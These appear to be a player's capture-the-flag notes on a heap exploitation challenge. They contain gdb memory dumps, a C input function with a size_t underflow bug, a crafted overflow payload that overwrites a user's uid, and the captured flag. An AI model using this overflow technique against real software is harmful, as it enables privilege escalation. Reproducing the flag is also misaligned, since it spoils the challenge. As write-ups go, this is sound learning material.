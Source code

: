 heap exploit?

or nah because there's only malloc and usage, no free

- integer type confusion/underflow not possible because size_t is used in most things
- overflow unsure, read_n_delimited looks pretty tight to me 
	- altho maybe there's always the one byte off
- cascading login; when a user is found, all other user UIDs are leaked
- username clash is possible

can input nullbytes into login?

after the first add user:

```
(gdb) x/32x (char*)users
0x5555555592a0:	0x00001338	0x41414141	0x41414141	0x42424242
0x5555555592b0:	0x42424242	0x43434343	0x00434343	0x00000000
0x5555555592c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555555592d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555555592e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555555592f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555559300:	0x00000000	0x00000000	0x00000000	0x00000000
```

where username length input was 24, user AAAAAAAABBBBBBBBCCCCCCC (len 23)

```
Breakpoint 1, 0x00005555555553e8 in add_user ()
(gdb) c
Continuing.
malloc(): corrupted top size
```

so it broke malloc...?

i guess i do have one byte to work with

```
0x5555555592a0:	0x00001338	0x41414141	0x41414141	0x42424242
0x5555555592b0:	0x42424242	0x43434343	0x00000021	0x00000000

0x5555555592c0:	0x00001339	0x42424242	0x42424242	0x42424242
0x5555555592d0:	0x42424242	0x42424242	0x00000021	0x00000000
										^ 21 is the malloc header

0x5555555592e0:	0x0000133a	0x41414141	0x41414141	0x42424242
0x5555555592f0:	0x42424242	0x43434343	0x00434343	0x00000000

0x555555559300:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555559310:	0x00000000	0x00000000	0x00000000	0x00000000

```

normal circumstance:

```
0x5555555592a0:	0x00001338	0x41414141	0x41414141	0x42424242
0x5555555592b0:	0x42424242	0x43434343	0x00000021	0x00000000
0x5555555592c0:	0x00001339	0x61616161	0x00000000	0x00000000
0x5555555592d0:	0x00000000	0x00000000	0x00004321	0x00000000
										^ top chunk
```

trying to overwrite the previous chunk size by using ' ' (0x20)

so username is "AAAAAAAABBBBBBBBCCCC   " (A x 8 + B x 8 + C x 4 + " " x 3)

still overwrote too much:

```
(gdb) x/32x (char*)users
0x5555555592a0:	0x00001338	0x66647361	0x00000000	0x00000000
0x5555555592b0:	0x00000000	0x00000000	0x00000021	0x00000000
0x5555555592c0:	0x00001339	0x41414141	0x41414141	0x42424242
0x5555555592d0:	0x42424242	0x43434343	0x00202020	0x00000000
```

so i guess we need null bytes for a more controlled write

looks like i can make the prev_size bigger but not smaller

try 40/41? so we skip over one and can write directly to something

## vuln in read_n_delimited

```c

void read_n_delimited(char* buf, size_t n, char delimiter) {
    char c;
    size_t i = 0;
    while(i <= n - 1) { // BUG if n = 0, i <= -1 because size_t n is going to underflow into 2^32-1 / infinity
        if(read(0, &c, 1) != 1) {
            break;
        }

        if(c == delimiter) {
            break;
        }

        buf[i++] = c;
    }
    buf[i] = '\0';
}
```

crafting the exploit:

```
0x560989d3b2a0:	0x00001338	0x00000030	0x00000000	0x00000000
0x560989d3b2b0:	0x00000000	0x00000000	0x00000021	0x00000000 -> 7x8=56 til the next chunk, then 37130000, then 31000000
0x560989d3b2c0:	0x00001339	0x00000031	0x00000000	0x00000000
0x560989d3b2d0:	0x00000000	0x00000000	0x00000021	0x00000000
```

b"A" * 56 + b"\x37\x13\x00\x00" + b"\x31\x00\x00\x00"

didn't work; i need the heap to look like when ive just added one user

```
0x5636b65ab2a0:	0x00001338	0x42424242	0x42424242	0x42424242
0x5636b65ab2b0:	0x42424242	0x42424242	0x00020d51	0x00000000
```

now we craft that same thing, with the top_size metadata intact and then overflow 1337 into the next uid:

```py
payload = b"B" * 20 +  top_size   +   b"\x00" * 4 + b"\x37\x13\x00\x00"
```


```
$ ls chal
flag.txt
pwn
$ cat chal/flag.txt
DUCTF{th3_4uth_1s_s0_bad_1t_d0esnt_ev3n_us3_p4ssw0rds}

```





